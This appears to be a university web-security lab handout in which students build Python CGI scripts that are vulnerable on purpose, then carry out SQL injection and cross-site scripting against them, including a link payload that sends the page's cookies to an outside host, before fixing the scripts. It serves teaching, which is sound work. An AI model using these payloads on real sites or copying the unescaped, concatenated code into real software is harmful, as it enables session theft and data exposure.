 * Introduction

This week we will continue on Web vulnerabilities. I know that many of you did not complete Lab06. So this lab will replace the last part of that lab.

* CGI scripting

CGI-Scripting is the simplest way to create functionality in a webserver. Any more complex technology (such as Ruby on Rails) is based on CGI.

Read about CGI here: http://www.tutorialspoint.com/python/python_cgi_programming.htm

There are two ways for a client to send information to a CGI-script: one of them is POST and the other GET. Go back to the URL above and make sure you
understand what POST and GET are used for. For example, go to amazon.ca and search for a product. Does Amazon search use GET or POST? What about google.ca?

* Setup

For this lab we will need to use the machine roberts.seng.uvic.ca. Login in to it. In this machine go to the directory =/web/seng360/=. In here there should be
a directory with your username (for example, in my case, there is one called =/web/seng360/dmg/=.

Let us make sure things work. First create a file called =test.html= in this directory (i.e. =/web/seng360/<youruserid>/test.html=) that contains the following:


#+begin_example
<H1>Test</h1>

This is a test.
#+end_example

This has created a web page that should be found at: http://roberts.seng.uvic.ca/seng360/userid/test.html (replace userid with your userid).

If things are working properly, you  should be browsing the contents of this page.

It will be a good idea to monitor the error logs of the web server in case your Web pages or scripts do not work. They are located in the =roberts.seng.uvic.ca=
in directory =/web/seng360/logs/error_log=. In my opinion the easiest way to do this is by opening a window to =roberts= and executing:

#+begin_example
tail -f /web/seng360/logs/error_log 
#+end_example



* Part 1: SQL

** Creating =sqlForm.html=


First we need to create a Web form. This will gather information that will passed to our script. Read about HTML forms here: http://zipcon.net/~swhite/docs/computers/web/QuickHTML/Forms.html

Create a file called =sqlForm.html=

#+begin_src html
<h1>This a form to test our SQL script</h1>

<h3>This is a GET form</h3>
<form action="sql.py" method="get">
id: <input type="text" name="id"><br>
<input type="submit" value="Submit">
</form>

<h3>This is a POST form</h3>

<form action="sql.py" method="post">
id: <input type="text" name="id"><br>
<input type="submit" value="Submit">
</form>


#+end_src

Test it. Its url is http://roberts.seng.uvic.ca/seng360/userid/sqlForm.html (replace userid with your userid).

It should look something like this:

[[./sqlForm.png]]


** The Python script

We will now create the CGI script that responds to this form.

I have setup a mysql database in one of my computers. The Lab instructor will give you the details (hostname, username and password). Create a Python CGI-script
called =sql.py= with the following contents:

#+begin_src python
#!/usr/bin/python

import MySQLdb
import cgi, cgitb 


print "Content-type: text/html"
print ""

hostname="askLabInstructor"
username="seng360"
passwd = "askLabInstructor"
# Open database connection

try:
   db = MySQLdb.connect(hostname,username,passwd,"seng360" )
except:
   print "<h1>Unable to connect to database</h1>"
   exit

# Create instance of FieldStorage 
form = cgi.FieldStorage() 

if "id" not in form:
    print "<H1>Error please use the form and</H1>"
    print "Please fill in the <b>id</b> field."
    exit


id = form.getvalue('id')

# prepare a cursor object using cursor() method
cursor = db.cursor()

# Prepare SQL query to INSERT a record into the database.
sql = "SELECT id, field from test where id = "  + id




print "<h3>query to evaluate: "+sql + "</h3>"

try:

   # Execute the SQL command
   cursor.execute(sql)
   # Fetch all the rows in a list of lists.
   results = cursor.fetchall()

   print "<h3>Results for </h3>"
   print "<table border = 1>"
   for row in results:
      id = row[0]
      field = row[1]
      print "<tr><td>id=%d</td><td>field=%d</td></tr>" % \
          (id,field)
   print "</table>"

except:
   print "<h1>Error: unable to fetch data for id = [" + id + "]</h1>"


#+end_src


** Test the script

Load =sqlForm.html= again in your browser. Test  it with any of the following values: 1,5,10. Try both forms. Answer the following questions:

*Q1: What is the difference between using a POST and GET form to call a CGI-script* 

and

*Q2: Is one form more secure than the other? Explain*  (hint, look at the URL of the script)

*Q3: Is it really more secure? Explain*


** Do the injection attack

Reload the form. Use  the following as the value for id:

#+begin_src
1 or TRUE
#+end_src

As you can see, we now get all the values in the table. 

*Q4: Explain why the new value of /id/ tricks our form and is able to retrieve all the tuples in the table.*

** Fix the script

Injection attacks are common in SQL, hence libraries have learned to deal with them. Learn how to address it. In general the best method is using prepared
statements. The Python-MySQL library we are using does not support prepared statements, but it is capable of dealing with this problem. See this question in
Stack Overflow: http://stackoverflow.com/questions/7929364/python-best-practice-and-securest-to-connect-to-mysql-and-execute-queries

Fix your script. Test your script until the attack is no longer effective.

* Part 2: Cross-scripting attacks

Cross-scripting attacks are another common way to Web applications.

For this part of the assignment make sure that you use *Firefox*.

** Create another form

Create a Web page called =formXSS.html= with the following contents:

#+begin_src html
<h1>Cross scripting attack</h1>

This form will help us test cross-scripting attacks.

<form action="xssSimple.py" method="get">
User: <input type="text" name="user"><br>
<input type="hidden" name="notshown" value="abc"><br>
<input type="submit" value="Submit">
</form>
#+end_src

Test it.

** Create the script that will respond to this form

Create a script =xssSimple.py= that will respond to the form. Its contents should be:

#+begin_src python
#!/usr/bin/python

import cgi, cgitb 

print "Content-type: text/html"
print ""

# Create instance of FieldStorage 
form = cgi.FieldStorage() 
user = form.getvalue('user')

if "user" not in form:
    print "<H1>Error</H1>"
    print "Please fill in the <b>user</b> field."
    exit

print "<h1>Example of Simple Cross Scripting attack</h3>"
print "Hello [" + user + "]"
#+end_src

** Test the script

Test the script by submitting a value in the field =user= and submitting the form.

** A simple attack

In the form, submit the following (in the field =user=)

#+begin_src
<font color=red><b>dmg</b></font>
#+end_src

then try this:

#+begin_src
<h1>dmg</h1>
#+end_src

*Q5: Explain the impact of the attack and how it works*

** A more active attack

Are you using *Firefox*? If not, then use it. This next attack requires Firefox.

Input the following value in the /user/ field and hit submit again:

#+begin_src
<script>alert('attacked');</script>
#+end_src

** Stealing cookies

Create a script that sets a cookie. Call this script =cookies.py=

#+begin_src python
#!/usr/bin/env python

import cgi, cgitb 

import time, Cookie

# Instantiate a SimpleCookie object
cookie = Cookie.SimpleCookie()

# The SimpleCookie instance is a mapping
cookie['seng360'] = str(time.time())

# Output the HTTP message containing the cookie
#print cookie
print 'Content-Type: text/html\n'

# Create instance of FieldStorage 
form = cgi.FieldStorage() 
user = form.getvalue('user')

if "user" not in form:
    print "No <b>user</b> field has been set."
else:
   print "<h3>Hello [" + user + "]"
   print "</h3>"


print '<br><hr>'
print 'Server time is', time.asctime(time.localtime())
print '</body></html>'
#+end_src

Load the script. Now inspect the cookies in your browser to make sure the cookie was set. (In Firefox you can find the cookies in
/Preferences/Privacy/History/Remove Individual Cookies/ Make sure the cookie was set.

Let us create another web page to test it. This time we will call it =cookies.html=

#+begin_src html
<h1>Cross scripting attack</h1>

This form will help us test cross-scripting attacks.

<form action="cookies.py" method="get">
User: <input type="text" name="user"><br>
<input type="hidden" name="notshown" value="abc"><br>
<input type="submit" value="Submit">
</form>
#+end_src

Test it. It should behave as expected

** Stealing the cookie

Now pass the following string in the user field:

#+begin_example
<a href="cookies.py" onClick="javascript:document.location.replace('http://turingmachine.org/text' + escape(document.cookie)); return false;">my name</a>
#+end_example

As you can see, the location where the /Name/ should be displayed is now replaced with a link. Follow it. Look at the resulting URL. This URL does not exist,
but inspect the URL that you were trying to retrieve.

*Q6: What URL is displayed when the mouse is hovered over the link?*

*Q7: What is the full URL that is actually the link is followed? Why is this an attack?*

This attack is very pernicious. It is capable of stealing all the cookies of a site by simply logging the access to the destination Website.

* Part3 Cross-scripting attacks using Chromium

Try the same attacks on Chromium.

*Q8: Which of the attacks did not succeed when using Chromium?*

* Part 4

Fix the vulnerabilities in your scripts. Hint: see cgi.escape in https://docs.python.org/2/library/cgi.html

* What to submit

Submit a zip file that contains:

- Your scripts
- Your HTML


